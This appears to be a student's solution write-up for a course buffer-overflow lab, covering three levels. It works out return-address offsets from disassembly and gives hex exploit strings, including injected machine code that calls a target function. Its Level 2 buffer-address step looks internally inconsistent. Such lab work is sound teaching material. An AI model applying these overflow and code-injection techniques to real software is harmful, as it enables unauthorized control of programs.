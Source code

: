# Buffer Lab

> This assignment will help you develop a detailed understanding of IA-32 calling
> conventions and stack organization. It involves applying a series of buffer
> overflow attacks on an executable file bufbomb in the lab directory.

## Level 0: Candle/smoke

Target: get BUFBOMB to execute the code for `smoke` when getbuf executes its return statement

Get `smoke` address from assembly code: `08049415`

```assembly
# buf
08049c12 <getbuf>:
 8049c12:	55                   	push   %ebp
 8049c13:	89 e5                	mov    %esp,%ebp
 8049c15:	83 ec 38             	sub    $0x38,%esp
 8049c18:	83 ec 0c             	sub    $0xc,%esp
 8049c1b:	8d 45 d2             	lea    -0x2e(%ebp),%eax
 8049c1e:	50                   	push   %eax
 8049c1f:	e8 5e fa ff ff       	call   8049682 <Gets>
 8049c24:	83 c4 10             	add    $0x10,%esp
 8049c27:	b8 01 00 00 00       	mov    $0x1,%eax
 8049c2c:	c9                   	leave
 8049c2d:	c3                   	ret
```

`lea -0x2e(%ebp),%eax` => in `buf[M]`, the number of M is 46 => plus 4 bytes in `%ebp`,
the return address should begin at 50.

That is, in this string, the first 50 bytes mean nothing, 50~53 mean the return address.
So, the string should be:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 15 94 04 08
```

## Level 1: Sparkler/fizz

Target: get BUFBOMB to execute the code for `fizz` with argument `cookie`

Assembly code of `fizz`:

```assembly
08049442 <fizz>:
 8049442:	55                   	push   %ebp
 8049443:	89 e5                	mov    %esp,%ebp
 8049445:	83 ec 08             	sub    $0x8,%esp
 8049448:	8b 55 08             	mov    0x8(%ebp),%edx
 804944b:	a1 90 d1 04 08       	mov    0x804d190,%eax
 8049450:	39 c2                	cmp    %eax,%edx      # check if %edx equals to cookie locating in 0x804d190
 8049452:	75 22                	jne    8049476 <fizz+0x34>
 8049454:	83 ec 08             	sub    $0x8,%esp
 8049457:	ff 75 08             	push   0x8(%ebp)
 804945a:	68 23 b0 04 08       	push   $0x804b023
 804945f:	e8 1c fc ff ff       	call   8049080 <printf@plt> # print fizz
 8049464:	83 c4 10             	add    $0x10,%esp
 8049467:	83 ec 0c             	sub    $0xc,%esp
 804946a:	6a 01                	push   $0x1
 804946c:	e8 6f 09 00 00       	call   8049de0 <validate>
 8049471:	83 c4 10             	add    $0x10,%esp
 8049474:	eb 13                	jmp    8049489 <fizz+0x47>
 8049476:	83 ec 08             	sub    $0x8,%esp
 8049479:	ff 75 08             	push   0x8(%ebp)
 804947c:	68 44 b0 04 08       	push   $0x804b044
 8049481:	e8 fa fb ff ff       	call   8049080 <printf@plt> # print buzz, which is wrong
 8049486:	83 c4 10             	add    $0x10,%esp
 8049489:	83 ec 0c             	sub    $0xc,%esp
 804948c:	6a 00                	push   $0x0
 804948e:	e8 bd fc ff ff       	call   8049150 <exit@plt>
```

Similarly, the first 50 bytes mean nothing. 50~53 mean the address of `fizz` which is `08049442`.
54~57 mean nothing. 58~61 mean the cookie `20ba0521`.
Therefore, the string should be:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 42 94 04 08 00 00
00 00 21 05 ba 20
```

## Level 2: Firecracker/bang

Target: get BUFBOMB to execute the code for bang with setting global_value as cookie

Assembly code of `bang`:

```assembly
08049493 <bang>:
 8049493:	55                   	push   %ebp
 8049494:	89 e5                	mov    %esp,%ebp
 8049496:	83 ec 08             	sub    $0x8,%esp
 8049499:	a1 98 d1 04 08       	mov    0x804d198,%eax
 804949e:	89 c2                	mov    %eax,%edx
 80494a0:	a1 90 d1 04 08       	mov    0x804d190,%eax
 80494a5:	39 c2                	cmp    %eax,%edx           # compare *0x804d198 and *0x804d190
 80494a7:	75 25                	jne    80494ce <bang+0x3b>
 80494a9:	a1 98 d1 04 08       	mov    0x804d198,%eax
 80494ae:	83 ec 08             	sub    $0x8,%esp
 80494b1:	50                   	push   %eax
 80494b2:	68 64 b0 04 08       	push   $0x804b064
 80494b7:	e8 c4 fb ff ff       	call   8049080 <printf@plt>
 80494bc:	83 c4 10             	add    $0x10,%esp
 80494bf:	83 ec 0c             	sub    $0xc,%esp
 80494c2:	6a 02                	push   $0x2
 80494c4:	e8 17 09 00 00       	call   8049de0 <validate>
 80494c9:	83 c4 10             	add    $0x10,%esp
 80494cc:	eb 16                	jmp    80494e4 <bang+0x51>
 80494ce:	a1 98 d1 04 08       	mov    0x804d198,%eax
 80494d3:	83 ec 08             	sub    $0x8,%esp
 80494d6:	50                   	push   %eax
 80494d7:	68 89 b0 04 08       	push   $0x804b089
 80494dc:	e8 9f fb ff ff       	call   8049080 <printf@plt>
 80494e1:	83 c4 10             	add    $0x10,%esp
 80494e4:	83 ec 0c             	sub    $0xc,%esp
 80494e7:	6a 00                	push   $0x0
 80494e9:	e8 62 fc ff ff       	call   8049150 <exit@plt>
```

According to gdb, <global_value> locates in `0x804d198`, while <cookie> locates in `0x804d190`.
We need to set <golobal_value> to <cookie> value via assembly code, and finally step into
`bang` locating in `0x08049493`:

```assembly
00000000 <.text>:
   0:	c7 05 98 d1 04 08 21 	movl   $0x20ba0521,0x804d198
   7:	05 ba 20
   a:	68 93 94 04 08       	push   $0x8049493
   f:	c3                   	ret
```

Store the assembly code to <buf> and return to there so that program can execute it.
Before doing that, we need to find out where it is => use gdb with `x $ebp` => `0x5568fa40`

* 0~15: assembly code
* 16~49: nothing
* 50~53: buf address

```
c7 05 98 d1 04 08 21
05 ba 20
68 93 94 04 08
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00
40 fa 68 55
```
